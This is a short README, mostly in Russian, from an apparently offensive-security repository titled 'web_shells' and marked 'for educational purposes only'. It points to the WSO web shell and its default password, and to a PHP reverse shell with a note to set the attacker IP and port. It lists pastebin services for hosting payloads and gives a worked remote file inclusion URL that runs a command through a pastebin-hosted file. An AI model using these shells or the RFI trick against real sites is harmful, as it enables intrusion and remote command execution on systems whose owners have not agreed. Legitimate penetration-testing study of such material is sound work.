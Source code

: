 # web_shells For educational purposes only!

## wso shell 
repo - https://github.com/mIcHyAmRaNe/wso-webshell
Пароль по умолчанию - ghost287 (поменять пароль можно в строке 7 указав md5 хеш нового пароля)

## rev-shell 
repo - https://github.com/pentestmonkey/php-reverse-shell/tree/master
Не забудьте указать новый IP и PORT на строке 49 и 50

## pastebin like services
Список сервисов для публикации кода https://github.com/lorien/awesome-pastebins
Проверенные бесплатные сервисы:
- http://vpaste.net/
- https://bpa.st/
- https://pastebin.mozilla.org/
- https://paste.debian.net/
- https://pastebin.fi/

После размещения ищем кнопку RAW и получаем ссылку на текст файла, который уже можно использовать для RFI\RCE
P.S. При работе с RFI не забывайте, что вы передаёте ссылку как параметр, и если внутри вашего кода тоже есть обработчик параметра, то его нужно передавать не через ?, а через &


🚫 BAD - http://127.0.0.1/test.php?page=https://pastebin.fi/r/lolkek?cmd=id 

🆗 GOOD - http://127.0.0.1/test.php?page=https://pastebin.fi/r/lolkek&cmd=id 
